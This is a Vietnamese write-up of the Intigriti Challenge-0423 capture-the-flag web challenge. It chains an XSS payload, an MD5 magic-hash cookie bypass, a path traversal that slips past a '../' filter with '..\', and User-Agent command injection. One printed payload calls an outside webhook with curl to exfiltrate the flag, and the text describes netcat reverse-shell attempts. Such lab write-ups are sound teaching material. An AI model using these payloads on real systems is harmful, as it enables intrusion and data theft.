 # [Intigriti] Challenge-0423
<p>Đầu tiên, tại /challenge.php nhận về một giao diện trang login. Đề bài đã cho sẵn username=strange và password=monkey để login. Sau khi login, server trả về 2 cookie là username và account_type rồi chuyển hướng về /dashboard.php.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image.png)

<p>Thay đổi cookie username và account_type bằng cách giá trị khác nhau nhưng không có dấu hiệu gì đặc biệt ở response.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-1.png)

<p>Kiểm tra các thư mục có listing hay không? Kết quả là không được phép truy cập và qua việc này thì phát hiện ra được thông tin web server là nginx/1.24.0. Bây giờ, có 2 hướng để đi tiếp là thử các payload SQL injection ở chức năng login hoặc là tìm các lỗi nằm trên nginx/1.24.0. Tạm thời ưu tiên test chức năng login trước.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-2.png)

<p>Sử dụng kí tự ' thì server trả về response yêu cầu điều hướng tới /index_error.php?error=invalid username or password.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-3.png)

<p>Sau đó, nhận được response có một dòng comment "Nhớ sử dụng strict comparison" -> Có vẻ như đây là gợi ý trang web bị lỗi type juggling. Các vị trí có khả năng bị type juggling có thể xảy ra là login, cookie. Điều đáng chú ý là giá trị của tham số error có vẻ như được render trực tiếp ra HTML response -> Có khả năng bị XSS.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-4.png)

<p>Thử &lth1&gta thì xác định HTML injection thành công.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-5.png)

<p>Thử &ltscript&gtalert(origin)&lt/script&gt thì xác định đúng trang web này đã bị XSS.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-6.png)

<p>Quay về trang login, mình có thắc mắc là server có nhận dữ liệu dưới dạng nào khác ngoài form không ? (ví dụ như là json, xml,...). Sau khi đổi định dạng là json và gửi đi thì phát hiện ra có vẻ như trang này chưa tắt cấu hình display_errors dẫn đến hiển thị waring ở phía client. Dựa vào warning thì xác định được 2 điều: không nhận dữ liệu json khi login và đường dẫn tới trang login là /app/login.php. Vì không nhận dữ liệu json nên giả thuyết sử dụng "psw": true là coi như loại -> Khả năng bị type juggling còn lại là nằm trong cookie.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-7.png)

<p>Giá trị của cookie account_type khá đặc biệt, là một chuỗi không rõ có ý nghĩa gì và khi thay đổi thì response cũng không có dấu hiệu gì đặc biệt. Dựa vào tên "account_type" thì mình đoán có thể giá trị là một mã để phân biệt các loại tài khoản (VIP, Normal,...). Có thể là các giá trị sẽ được hash, encrypt,... để so sánh với giá trị nào đó ở phía server. Liên quan đến hash thì trong type juggling có các chuỗi được gọi là magic hash. Ý tưởng bây giờ là thử các hash phổ biến như MD5, SHA1,.. Tìm chuỗi sau khi hash MD5 có dạng 0e... -> Chọn "etqaTTFXeujI" và response trả về có một element khá đặc biệt. Dựa vào tiêu đề &lt;h3 id=&quot;custom_image.php - try to catch the flag.txt ;)&quot;&gt;A special golden wall just for Premium Users ;) &lt;/h3&gt; có thể đoán rằng truy cập đến /custom_image.php để tìm flag.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-8.png)

<p>Tại /custom_image.php, browser render ra một image là một bức tường màu vàng. Dựa vào tên file thì khả năng cao là endpoint này xử lý gì đó rồi mới trả về nội dung tấm ảnh chứ sử dụng file .php chỉ trả về nội dung ảnh thì không hợp lí cho lắm. Tại vì, hầu hết những ảnh trên trang web này đều được lưu tập trung trong các thư mục cụ thể như là resources hoặc images. Bây giờ, có 2 hướng để tiếp tục là fuzz các parameter tại /custom_image.php hoặc là đi tìm bí mật nào đó được giấu trong ảnh này</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-9.png)

<p>Sử dụng một số tools: exiftool, steghide,... thì kết quả cũng không có gì đáng chú ý -> Hướng này có vẻ fail</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-10.png)

<p>Quay lại hướng thứ nhất, sử dụng ffuf để fuzz parameter. Vì trong lần fuzz đầu tiên có khá nhiều kết quả có cùng kích thước nên tạm thời filter các response có cùng size -> Kết quả tìm được một parameter là file.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-11.png)

<p>Chưa rõ là tham số file này yêu cầu giá trị là gì. Có thể là đường dẫn tương đối hoặc tuyệt đối. Tuy nhiên, vì đã biết là trang này sẽ hiển thị các warning và error nên mình sẽ cố gắng thử các trường hợp gây ra error/warning để leak thêm thông tin. Thử truyền tham số với kiểu array thì gây ra lỗi thành công. Dựa vào stack trace: lỗi bắt đầu từ dòng code thứ 12 khi sử dụng strpos(Array, "../") -> mình đoán tham số đầu tiên của hàm strpos là biến nhận giá trị của tham số file vì tôi đã truyền vào một mảng nên bị lỗi là đúng và tham số thứ hai là "../" -> Có vẻ như dòng code này dùng để kiểm tra chuỗi "../" gây path traversal trong giá trị của tham số file.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-12.png)

<p>Sử dụng một đường dẫn tuyệt đối có sẵn trên web để test. Kết quả là hiển thị một thông báo lỗi leak ra file_get_content và đọc nội dung từ đường dẫn lấy từ tham số file.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-13.png)

<p>Thử thêm chuỗi "../" thì bị replace đi -> Có vẻ như strpos ở dòng 12 sẽ tìm chuỗi "../" và sau đó thực hiện replace rồi mới đưa vào hàm file_get_content. Chưa rõ là việc replace này có lặp lại nhiều lần hay không nên cần phải test thêm.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-14.png)

<p>Chèn thêm các chuỗi "../" vào giữa thì tất cả đều đã bị replace -> Hướng sử dụng "../" có vẻ fail. Tuy nhiên, nếu server sử dụng hệ điều hành Windows thì vẫn còn một cách khác. Đó là sử dụng kí tự \ thay vì /.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-15.png)

<p>Vậy là thành công bypass việc kiểm tra "../" bằng cách sử dụng "..\"</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-16.png)

<p>Tuy nhiên, sử dụng bao nhiêu "..\" cũng không tìm thấy flag.txt -> Có vẻ như thư mục www nằm trong thư mục chứa mã nguồn của trang web chứ không phải nằm trong thư mục gốc</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-17.png)

<p>Thay thế bằng www/web/images/ và thử lại -> Thành công</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-18.png)

<p>Chuyển đổi kiểu dữ liệu thành text/plain để xem nội dung gốc. Có vẻ nội dung gợi ý truy cập đến /e7f717ed-d429-4d00-861d-4137d1ef29az/9709e993-be43-4157-879b-78b647f15ff7/admin.php.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-19.png)

<p>Tương tự, ra được nội dung admin.php. Có một dòng code sử dung shell_exec nhận giá trị từ trường User-Agent trên HTTP Header -> Khả năng bị OS Command injection. Nhìn chung thì việc sử dụng blacklist và sau đó replace trong trường này vẫn bypass được. Thứ nhất, blacklist vẫn thiếu  các kí tự như: ` $ ( ) . Thứ hai, việc replace các chuỗi khớp với phần trong blacklist thì hợp lí với các ký tự lẻ còn với từ 2 kí tự khác nhau trở lên thì hoàn toàn có thể chèn thêm chuỗi ở giữa để bypass.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-20.png)

<p>Đầu tiên, sử dụng payload: `cucurlrl${IFS}https://webhook.site/7d182ba8-11b7-405f-bcdd-ad2ad82e6254` để xem thực sự có tồn tại lệnh curl và server có được phép kết nối ra ngoài internet hay không. Có request gửi tới webhook -> Curl thành công. Tiếp theo, để leak data ra ngoài bằng lệnh curl thì có thể truyền qua tham số hoặc dùng data-binary . Tuy nhiên, cách sử dụng data-binary có vẻ không khả thi.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-21.png)

<p>Ban đầu, khi sử dụng cat để đọc nội dung flag.txt thì nội dung trả về là rỗng. Có vẻ như tên file chứa flag không phải là flag.txt nên thay vào đó mình sử dụng kí tự để đọc file .txt. -> Lấy được flag thành công. Tuy nhiên, vẫn chưa RCE được hoàn toàn nên tiếp tục sử dụng các command như: nc, ncat, netcat để lấy shell.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-22.png)

<p>Thử lệnh nc thì response trả về khá lâu và cuối cùng bị timeout. Khi sử dụng ncat và netcat thì response trả về rất nhanh. Tuy nhiên, không có shell nào được gửi đến -> Có vẻ như 2 lệnh không tồn tại trên server hoặc lí do nào đó. Bật vpn, thay đổi IP và gửi lại request thì cũng không có dấu hiệu gì khả quan -> Có lẽ vấn đề không nằm ở IP. Có thể là do kết nối bị chặn hoặc lí do nào đó không rõ -> Có vẻ fail</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-23.png)

<p>Tóm lại, đây là toàn bộ nội dung về challenge. Hy vọng writeups này giúp ích cho bạn 🔥.</p>